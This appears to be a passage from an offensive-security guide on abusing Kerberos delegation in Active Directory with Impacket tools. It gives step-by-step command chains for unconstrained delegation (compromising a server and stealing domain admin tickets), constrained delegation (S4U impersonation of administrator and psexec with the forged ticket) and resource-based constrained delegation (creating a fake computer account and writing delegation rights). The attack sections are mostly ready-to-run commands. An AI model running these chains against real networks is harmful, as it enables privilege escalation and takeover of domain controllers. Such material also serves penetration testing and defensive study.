 ### Output Analysis Examples
```bash
# Save output for analysis
python3 findDelegation.py domain.local/user:password > delegation_report.txt

# Filter for specific delegation types
python3 findDelegation.py domain.local/user:password | grep "Unconstrained"
python3 findDelegation.py domain.local/user:password | grep "Constrained"
python3 findDelegation.py domain.local/user:password | grep "RBCD"

# Look for high-value targets
python3 findDelegation.py domain.local/user:password | grep -E "(DC|Exchange|SQL)"
```

## Attack Chain Integration

### Unconstrained Delegation Exploitation
```bash
# Step 1: Discover unconstrained delegation systems
python3 findDelegation.py domain.local/user:password | grep "Unconstrained"

# Step 2: Compromise system with unconstrained delegation
python3 psexec.py domain.local/user:password@delegation-server.domain.local

# Step 3: Wait for high-value user authentication and extract ticket
# On compromised system: Monitor for TGTs of domain admins
# Extract tickets using mimikatz or other tools

# Step 4: Use extracted tickets for privilege escalation
# Load admin TGT and access domain controller
```

### Constrained Delegation Abuse
```bash
# Step 1: Find constrained delegation configurations
python3 findDelegation.py domain.local/user:password | grep "Constrained"

# Step 2: Compromise account with constrained delegation rights
python3 GetUserSPNs.py domain.local/user:password -request

# Step 3: Use S4U2Self and S4U2Proxy for impersonation
python3 getST.py domain.local/service_account:password -spn cifs/target.domain.local -impersonate administrator

# Step 4: Use forged ticket for access
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass domain.local/administrator@target.domain.local
```

### Resource-Based Constrained Delegation (RBCD)
```bash
# Step 1: Identify RBCD configurations
python3 findDelegation.py domain.local/user:password | grep "RBCD"

# Step 2: Find systems where you can modify msDS-AllowedToActOnBehalfOfOtherIdentity
python3 dacledit.py domain.local/user:password -target target-server -action read

# Step 3: Configure RBCD and create computer account
python3 addcomputer.py domain.local/user:password -computer-name FAKE$ -computer-pass Password123!

# Step 4: Set up RBCD delegation and impersonate admin
python3 rbcd.py domain.local/user:password -delegate-from 'FAKE$' -delegate-to 'TARGET$' -action write
```
